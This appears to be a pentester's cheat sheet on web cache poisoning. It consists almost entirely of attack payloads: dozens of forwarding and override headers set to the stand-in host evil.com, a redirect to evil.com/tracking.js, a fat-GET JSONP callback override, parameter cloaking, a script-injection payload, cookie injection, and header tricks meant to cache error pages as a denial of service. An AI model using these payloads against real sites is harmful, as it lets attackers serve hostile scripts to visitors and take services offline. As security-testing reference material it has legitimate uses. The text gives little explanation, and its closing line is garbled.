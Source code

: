 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Content-Type: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```

### Fat GET Request
```http
GET /js/geolocate.js?callback=setCountryCookie
callback=arbitraryFunction
```
```http
HTTP/1.1 200 OK
BODY
arbitraryFunction({"country" : "United Kingdom"})
```

### Parameter Cloaking
```http
GET /?example=123?excluded_param=bad-stuff-here
```
### Parameter Parsing Quirks
```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```
### URL Normalization
```http
GET /random</p><script>alert(1)</script>
```
```http
HTTP/1.1 404 not found
BODY
<p>
  File /random not found
</p>
</p>
  <script>alert(1)
</script>
```

## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## DOS attack
```http
X-Forwarded-Port: 123
X-Forwarded-Port: 123 
Transfer-Encoding: 123
zTRANSFER-ENCODING: dgsht --> HTTP/1.1 501 NOT_IMPLEMENTED
```
```http
Header Response
HTTP/2 400
X-Cache: hit
```

## Burp Suite Extension
Guess Headers!
Guess Eviriting!
